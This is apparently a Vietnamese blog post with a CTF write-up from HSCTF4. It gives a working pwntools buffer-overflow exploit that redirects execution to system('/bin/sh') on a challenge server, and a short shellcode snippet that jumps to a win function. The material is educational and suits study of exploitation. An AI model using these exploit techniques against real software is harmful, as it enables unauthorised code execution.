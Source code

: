 ```yaml
---
layout: post
title: "[HSCTF4]"
---
```


Giải này là kỉ niệm một năm ngày mình bắt đầu vào con đường InfoSec và bắt đầu tham gia CTF. Sau một năm thì thấy khá hơn hơn hồi đó nhưng vẫn còn `noob` lắm...

Giải này tính không chơi mà do vài vấn đề nên vẫn chơi :3. Lần đầu được chơi cùng với Tú senpai với Cún idol nên sung sướng lắm :)). Team try hard từ ngay ngày đầu nhưng ém flag :)), mấy ngày cuối do còn đồ án nên submit hết rồi nghỉ. Kết quả team **lessthan3.kaonashi** được 6750 points :))

Sau đây mình write-up 1 vài bài:

### El Clasico :

Bài này là một bài bof đơn giản 

![elc](http://i.imgur.com/T71fpln.jpg)

Chỗ hàm gets() không giới hạn số kí tự nhập vào nên lợi dụng nó ta có thể trả về địa chỉ cần đến. Trong chương trình có sẵn system("/bin/sh") nên dùng luôn.

code 

```python
from pwn import *
elf=ELF("./elclasico")


def main(argv):
	if len(argv) <2:
		r=process("./elclasico")
	else:
		r=remote("104.131.90.29",8001)
	r.recvuntil("Enter your name: ")
	pl="A"*0x48
	pl+=p64(0x0000000000400778) # system("/bin/sh")
	pl+=p64(0x0000000000400590)
	
	r.sendline(pl)
	r.interactive()
	
main(sys.argv)
```

### Keith's Shell :

Bài này thì đọc code thì cũng có thể hiểu là nó cho nhập 1 chuỗi sau đó thực thi chuỗi đó (shellcode). Trong chương trình đã có sẵn hàm exploit luôn để cat flag rồi nhưng gọi thẳng hàm đó thì không được nên ta sẽ viết một đoạn shellcode ngắn :

```asm
push 0x080489FB #địa chỉ hàm exploit
ret
```
